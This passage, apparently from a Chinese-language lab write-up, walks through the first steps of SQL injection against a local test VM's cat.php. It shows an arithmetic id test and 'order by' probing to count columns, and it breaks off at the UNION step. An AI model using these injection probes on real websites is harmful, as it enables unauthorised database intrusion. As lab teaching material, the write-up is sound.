 - 输入`http://192.168.56.101/cat.php?id=2-1`返回正常页面如下,没有报错,说明id类型为整性<br>![](sql_coll2.jpg)

#### 利用order by猜测表的列数
- 二分判断列数,在地址输入`http://192.168.56.101/cat.php?id=1 order by 1`,页面正常,输入`http://192.168.56.101/cat.php?id=1 order by 10`,页面报错,`http://192.168.56.101/cat.php?id=1 order by 5`,页面报错,`http://192.168.56.101/cat.php?id=1 order by 3`,页面正常,`http://192.168.56.101/cat.php?id=1 order by 4`,页面正常,可以基本判断该数据表有4列(其实这里从1向上枚举就可以了,个人感觉表的列数不会太多,二分的初始上界我就凭经验猜了)<br>![](sql_coll4.jpg)

#### 利用union获取表信息